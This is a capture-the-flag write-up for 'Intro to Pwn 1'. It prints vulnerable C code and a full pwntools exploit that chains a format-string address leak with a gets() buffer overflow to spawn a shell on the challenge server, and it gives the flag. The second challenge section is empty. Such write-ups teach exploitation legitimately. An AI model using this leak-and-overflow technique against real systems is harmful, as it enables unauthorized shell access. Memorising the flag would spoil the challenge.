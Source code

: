 # Pwn

## Intro to Pwn 1

**Challenge**

This is a introductory challenge for exploiting Linux binaries with memory corruptions. Nowodays there are quite a few mitigations that make it not as straight forward as it used to be. So in order to introduce players to pwnable challenges, LiveOverflow created a video walkthrough of the first challenge. An alternative writeup can also be found by 0x4d5a. More resources can also be found here.


**Solution**

This challenge we get a script running on a server. 
A Snipped of the most important parts of this scripts looks like this:
```
void WINgardium_leviosa() {
    printf("┌───────────────────────┐\n");
    printf("│ You are a Slytherin.. │\n");
    printf("└───────────────────────┘\n");
    system("/bin/sh");
}

void welcome() {
    char read_buf[0xff];
    printf("Enter your witch name:\n");
    gets(read_buf);
    printf("┌───────────────────────┐\n");
    printf("│ You are a Hufflepuff! │\n");
    printf("└───────────────────────┘\n");
    printf(read_buf);
}

void AAAAAAAA() {
    char read_buf[0xff];
    
    printf(" enter your magic spell:\n");
    gets(read_buf);
    if(strcmp(read_buf, "Expelliarmus") == 0) {
        printf("~ Protego!\n");
    } else {
        printf("-10 Points for Hufflepuff!\n");
        _exit(0);
    }
}
// --------------------------------------------------- MAIN

void main(int argc, char* argv[]) {
	ignore_me_init_buffering();
	ignore_me_init_signal();

    welcome();
    AAAAAAAA();
}
```

Our goal is to execute the **WINguardium\_leviosa** function, which calls **system("/bin/sh")**. This system call will result in a shell on the server.
The function AAAAAAAAA() contains a gets() call, which is vulnerable for a buffer overflow. So if we can place our own code somewhere we can jump there by overwriting the return address from AAAAAAAAA().
Unfortunately there are multple security mechanisms activated. Non execution bit is set, so we can't place shellcode on the stack and also PIE is enable, so we need a leak from the memory to calculate the Address of the function **WINguardium\_leviosa()**
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

The function **welcome()** contains a printf() call, which can be abused for a format string attack. This can leak an address, which help us to calculate the address of **WINguardium\_leviosa()**.
We can calulate the difference of the address from **WINguardium\_leviosa()** and the leaked address with gdb. If we know this difference, we can calculate the address of **WINguardium\_leviosa()** for every execution of the binary, even if PIE is enabled.

The following exploit gives us a shell on the Server.
```
from pwn import *

HOST = 'hax1.allesctf.net'
PORT = '9100'

#r = remote('localhost','9100')
p = remote(HOST,PORT)
#p = process("./pwn1")

def remoteExploit():
    r = remote(HOST,PORT)

# leak a code address from the stack and use known offsets to calculate the WIN address
def leakAddresses():
    #witchNameQuestion = p.recvuntil('Enter your witch name:\n')
    #print(witchNameQuestion)
    formatStringAttack = (65-26)*"|%p|"
    p.sendlineafter('Enter your witch name:\n', formatStringAttack)
    stackDump = p.recvuntil(" enter your magic spell:\n")
    print(stackDump.decode('UTF-8'))
    #print(stackDump)
    stackDumpArray = stackDump.split(b"|")

    #get the last element 
    mainAddr = stackDumpArray[-2]
    #print(mainAddr)

    #calculate difference of WINgardium function and main instruction at addr mainAddr
    #this can be calculated with gdb
    print("Address of instruction in main function: {}".format(mainAddr.decode()))
    winAdr =  int(mainAddr.decode(),16) - 0x135
    return winAdr

# use the winAdr to overwrite the return address from AAAAAAAAA()
def localExploit(winAdr,offsetSize):
    #raw_input("wait for gdb") 
    #leviosaAdr = pack(0x00005555555549ec, 64, 'little', False)
    payload = b"Expelliarmus\x00"
    #payload += cyclic(offsetSize)
    payload += offsetSize*b'A'
    #also push a pop/ret/push instruction on the stack to align the stack (the win function contains a ret instruction at winAdr+0x36)
    payload += p64(winAdr+0x36)
    payload += p64(winAdr)

    print(payload)
    p.sendline(payload)
    #print(p.recvuntil("-10 Points for Hufflepuff!\n").decode('utf-8'))
    print(p.recvuntil("~ Protego!\n").decode('utf-8'))
    p.interactive()

def findOffset():

    c = "Expelliarmus\x00"+cyclic(0x2ff).decode()

    #start gdb 
    io = gdb.debug('./pwn1', '''
        break main
        continue
    ''')
    #p.recvuntil("Enter your witch name:\n")
    #send our cyclic input
    io.sendline(c)

    #interactive to keep the process alive
    io.interactive()

    #result:
    # "cnaa" is on top of the stack when the binary crashes -> use cyclic_find to get offset for the bufferoverflow
    return int(hex(cyclic_find("cnaa")),16)
    # so offset for the buffer overflow is 0xfb

if __name__=='__main__':
    #start gdb to get the offset for the buffer overflow
    #offset = findOffset()
    offset = int(hex(cyclic_find("cnaa")),16)

    winAdr = leakAddresses()
    print("calculated WIN address: {}".format(hex(winAdr)))

    localExploit(winAdr, offset)
```

The script leaks an address of an instruction on the Stack (main+45).
The calculated difference of this instruction and **WINguardium\_leviosa()** (calculated with GDB) is substracted from the leaked address, to get the address of **WINguardium\_leviosa()**.
Now we can use the buffer overflow from **AAAAAAAA()**, to override the return address of this function with the calculated **WINguardium\_leviosa()** address.

This will lead to execute **system("bin/sh")** on the server, which allows us to list the files on the server and leak the content of the file **flag**: **CSCG{NOW_PRACTICE_MORE}**

![](writeupfiles/pwn1Result.png)

## Intro to Pwn 2

**Challenge**

**Solution**
